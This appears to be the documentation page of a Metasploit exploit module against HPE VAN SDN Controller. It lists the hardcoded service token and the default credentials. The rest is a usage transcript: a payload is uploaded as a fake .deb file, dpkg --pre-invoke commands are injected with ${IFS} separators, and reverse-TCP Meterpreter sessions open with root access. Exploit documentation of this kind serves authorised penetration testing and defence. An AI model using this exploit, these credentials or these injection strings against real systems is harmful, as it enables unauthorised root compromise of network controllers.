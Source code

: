 ## Introduction

This module exploits a hardcoded service token or default credentials in
HPE VAN SDN Controller <= 2.7.18.0503 to execute a payload as root.

A root command injection was discovered in the uninstall action's name
parameter, obviating the need to use sudo for privilege escalation.

If the service token option `TOKEN` is blank, `USERNAME` and `PASSWORD`
will be used for authentication. An additional login request will be
sent.

## Setup

Follow <http://h22208.www2.hpe.com/eginfolib/networking/docs/sdn/sdnc2_6/5998-8473install/content/s_download_sw.html>.

Tested on 2.7.18.0503.

## Options

**RPORT**

Set this to the port for the REST API, usually 8081.

**WEBUI_PORT**

Set this to the port for the web UI, usually 8443.

**TOKEN**

Set this to the service token. Defaults to `AuroraSdnToken37`.

**USERNAME**

Set this to the service username. Defaults to `sdn`.

**PASSWORD**

Set this to the service password. Defaults to `skyline`.

## Usage

```
msf5 > use exploit/linux/http/hp_van_sdn_cmd_inject
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > set rhosts 192.168.56.102
rhosts => 192.168.56.102
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > set target Linux Dropper
target => Linux Dropper
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Authenticating with service token AuroraSdnToken37
[*] Uploading payload as fake .deb
[+] Uploaded /var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1.deb
[*] Renaming payload and executing it
[*] Injecting dpkg -r --pre-invoke=mv${IFS}/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1.deb${IFS}/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1${IFS}&&${IFS}chmod${IFS}+x${IFS}/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1
[*] Injecting dpkg -r --pre-invoke=/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1
[*] Sending stage (812100 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.102:34468) at 2018-07-03 18:23:08 -0500
[+] Deleted /var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.56.102
OS           : Debian 8 (Linux 4.4.0-2-amd64-hlinux)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
Background session 1? [y/N]
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > set token ""
token =>
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Authenticating with creds sdn:skyline
[+] Retrieved auth token 26d7b53a73a9455eae63c346321bfe31
[*] Uploading payload as fake .deb
[+] Uploaded /var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l.deb
[*] Renaming payload and executing it
[*] Injecting dpkg -r --pre-invoke=mv${IFS}/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l.deb${IFS}/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l${IFS}&&${IFS}chmod${IFS}+x${IFS}/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l
[*] Injecting dpkg -r --pre-invoke=/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l
[*] Sending stage (812100 bytes) to 192.168.56.102
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.102:34474) at 2018-07-03 18:24:47 -0500
[+] Deleted /var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l

meterpreter >
```

